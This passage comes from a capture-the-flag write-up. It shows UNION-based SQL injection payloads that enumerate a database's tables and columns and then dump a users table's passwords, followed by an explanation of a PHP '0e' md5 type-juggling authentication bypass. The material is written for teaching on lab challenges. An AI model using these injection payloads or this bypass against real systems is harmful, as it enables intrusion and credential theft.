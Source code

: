 ```
' union all select 1,2,3,group_concat(table_name),5,6 FROM information_schema.tables where table_schema LIKE '%ecw%';-- -
```

![](Screenshot from 2017-10-07 10-59-16.png)

### Awesome, there's a table called users! Let's fetch all the columns for this table.

```
' union all select 1,2,3,4,group_concat(column_name),6 FROM information_schema.columns where table_schema LIKE '%ecw%' and table_name LIKE '%users%';-- -
```

![](Screenshot from 2017-10-07 11-01-17.png)

### Hmm, the password field looks very promising. Could the flag be waiting for us there? Let's find out!

```
' union all select 1,2,3,4,group_concat(password),6 FROM ecw.users;-- -
```

![](Screenshot from 2017-10-07 11-04-20.png)

### And finally, there's our flag! Or should I say, flags? For some reason there were multiple rows in this table, so multiple possible flags. After trying out the first few it seems that the 3rd one is the correct one. We're collecting our points and heading to the next challenge!

## Magic Car (175 points)

### One more web challenge. This time we have to bypass an authentication mechanism it seems.

![](Screenshot from 2017-10-07 11-10-33.png)

### However, they were kind enough to give us the source code which is written in PHP. We will see in a minute that keeping this in mind is very important in order to solve this challenge. The source code reads as follow.

![](Screenshot from 2017-10-07 11-12-12.png)

### We can see that the username and password are concatenated and the md5 hash is compared to a hardcoded value. If both values are equals, we get the flag. There's two things to note here. First, the comparison is not strict ("==" instead of "===") which means that the types are not checked. Second, the hardcoded value starts with "0e" which is scientific notation in PHP. This challenge is an excellent example of making use of PHP's type jiggling functionality to bypass authentication. We can compute a md5 hash which is "equal" (not strict) to the hardcoded value. How? If we can compute a hash that starts with the scientific notation and has as many digits as the hardcoded value, the comparison will result in true. Let's write a Python script for this.

